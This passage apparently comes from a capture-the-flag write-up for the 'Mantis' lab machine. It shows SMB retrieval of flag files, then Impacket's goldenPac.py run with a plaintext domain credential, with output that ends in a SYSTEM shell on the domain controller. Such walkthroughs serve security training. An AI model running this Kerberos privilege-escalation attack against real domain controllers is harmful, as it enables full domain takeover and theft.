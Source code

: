 ```

smb: \> get Users\james\desktop\user.txt
getting file \Users\james\desktop\user.txt of size 32 as Users\james\desktop\user.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)

smb: \> get Users\administrator\desktop\root.txt
getting file \Users\administrator\desktop\root.txt of size 32 as Users\administrator\desktop\root.txt (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)

```

### Shell

Impacket has a script, `goldenPac.py` which will do all of this and return a shell:

```

root@kali# goldenPac.py 'htb.local/james:J@m3s_P@ssW0rd!@mantis'
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] User SID: S-1-5-21-4220043660-4019079961-2895681657-1103
[*] Forest SID: S-1-5-21-4220043660-4019079961-2895681657
[*] Attacking domain controller mantis.htb.local
[*] mantis.htb.local found vulnerable!
[*] Requesting shares on mantis.....
[*] Found writable share ADMIN$
[*] Uploading file IGiaSrqf.exe
[*] Opening SVCManager on mantis.....
[*] Creating service jAFc on mantis.....
[*] Starting service jAFc.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system

```